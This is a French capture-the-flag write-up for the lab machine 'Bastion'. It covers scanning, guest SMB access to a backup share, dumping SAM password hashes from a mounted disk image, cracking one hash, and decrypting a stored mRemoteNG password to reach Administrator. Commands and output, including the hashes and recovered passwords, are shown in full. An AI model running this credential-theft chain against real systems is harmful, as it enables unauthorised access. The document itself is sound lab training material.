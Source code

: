 # Bastion - Easy

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-30 06:49 EDT
Nmap scan report for 10.10.10.134
Host is up (0.021s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
|   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
|_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -6h39m41s, deviation: 1h09m16s, median: -5h59m42s
| smb2-time: 
|   date: 2023-03-30T04:50:11
|_  start_date: 2023-03-30T04:49:21
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-30T06:50:12+02:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.36 seconds
```

On essaye alors d’accéder au SMB

```bash
crackmapexec smb 10.10.10.134

/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
```

Pas possible d’énumérer les users ni les disques, on peut se connecter en tant que guest en revanche:

```bash
crackmapexec smb 10.10.10.134 -u "guest" -p "" --shares
/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\guest: 
SMB         10.10.10.134    445    BASTION          [+] Enumerated shares
SMB         10.10.10.134    445    BASTION          Share           Permissions     Remark
SMB         10.10.10.134    445    BASTION          -----           -----------     ------
SMB         10.10.10.134    445    BASTION          ADMIN$                          Remote Admin
SMB         10.10.10.134    445    BASTION          Backups         READ            
SMB         10.10.10.134    445    BASTION          C$                              Default share
SMB         10.10.10.134    445    BASTION          IPC$                            Remote IPC
```

On se connecte:

```bash
smbclient \\\\10.10.10.134/Backups -U guest
```

On trouve des backups d’image disque que l’on va essayer d’ouvrir, 7zip est capable de lire les fichiers .vhd donc on peut lister mais aussi monter avec guestmount:

```bash
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/
```

On va essayer de dump les secrets avec impacket.

```bash
cd Windows/System32/config
impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.10.1.dev1+20230120.195338.34229464 - Copyright 2022 Fortra

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```

Les mdp de Administrator et Guest sont vides, les comptes sont surement désactivés. On tente de casser le hash (la 2éme partie) pour L4mpje sur crackstation, on trouve direct la correspondance avec bureaulampje.

On peut se connecter en SSH comme le montre le recon. On lance powershell pour plus de commandes. On va upload et lancer winPEAS. mRemoteNG est installé, peut être que l’on peut hijack une session ?

[https://github.com/kmahyyg/mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt)

Cependant il faut récupérer le fichier de config (surtout le mdp stocké dedans) pour l’utiliser avec le script python. Il est trouvable ici:

```bash
C:\Users\L4mpje\AppData\Roaming\mRemoteNG
```

Puis on execute le script:

```bash
python3 exploit.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

On obtient une connexion ssh en tant qu’Administrator et donc le flag final